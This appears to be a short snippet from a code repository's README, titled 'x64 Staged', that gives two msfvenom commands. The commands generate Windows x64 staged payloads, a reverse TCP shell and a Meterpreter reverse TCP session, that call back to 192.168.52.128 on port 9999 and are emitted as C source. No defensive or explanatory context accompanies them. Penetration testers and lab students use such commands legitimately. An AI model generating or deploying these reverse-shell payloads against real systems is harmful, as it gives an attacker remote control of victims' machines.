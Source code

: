 # x64 Staged

reverse tcp
```sh
msfvenom -a x64 --platform windows -p windows/x64/shell/reverse_tcp LHOST=192.168.52.128 LPORT=9999 -f c
```

meterpreter
```sh
msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp  LHOST=192.168.52.128 LPORT=9999 -f c
```
